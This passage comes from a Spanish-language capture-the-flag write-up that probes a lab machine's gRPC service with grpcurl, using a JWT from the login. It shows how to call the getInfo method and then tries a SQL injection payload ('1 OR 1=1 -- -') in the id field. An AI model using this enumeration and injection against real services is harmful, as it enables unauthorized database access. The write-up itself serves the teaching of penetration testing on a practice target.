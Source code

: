 ```bash
Response trailers received:
token: b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdGluZyIsImV4cCI6MTY5NjU1NDk0OH0.GWAbdFF2vjMc6xf5qSE-pt_myEbclrxd-mpbvOvbwEA'
Sent 1 request and received 1 response
```

Si vemos bien, en la respuesta del Login hemos recibido un token, al parecer vamos a tener que usarlo como header para acceder a la función `SimpleApp.getInfo`, sin embargo esta función solo nos muestra un error:

```bash
❯ grpcurl -plaintext -H 'Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdGluZyIsImV4cCI6MTY5NjU2NjUwOH0.nXOFW_82d5vK-tX3I0xSq9R5-KlS24WrTX84Uz5B8uc' -d '' 10.10.11.214:50051 SimpleApp.getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation
```

Viendo la definición del objeto `getInfoRequest` que vimos en la lista de métodos del servicio, podemos ver que tenemos que enviar

```bash
❯ grpcurl -vv -plaintext 10.10.11.214:50051 describe getInfoRequest
getInfoRequest is a message:
message getInfoRequest {
  string id = 1;
}
```

Enviado eso en formato JSON, nos da una respuesta:

```bash
❯ grpcurl -plaintext -H 'Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdGluZyIsImV4cCI6MTY5NjU2NjUwOH0.nXOFW_82d5vK-tX3I0xSq9R5-KlS24WrTX84Uz5B8uc' -d '{"id":"1"}' 10.10.11.214:50051 SimpleApp.getInfo
{
  "message": "The admin is working hard to fix the issues."
}
```

Veamos que hacemos...

## Intrusión

Probando a poner cosas raras en el método getInfo, nos devuelve el error que vimos al principio en la enumeración; pero probando intentar abusar de una SQL Injection hace que la respuesta cambie

```bash
grpcurl -plaintext -H 'Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdGluZyIsImV4cCI6MTY5NjU2NjUwOH0.nXOFW_82d5vK-tX3I0xSq9R5-KlS24WrTX84Uz5B8uc' -d "{\"id\":\"1 OR 1=1 -- -\"}" 10.10.11.214:50051 SimpleApp.getInfo
{
  "message": "The admin is working hard to fix the issues."
}
```
> Se ve que el admin está trabajando duro
{: .prompt-info }
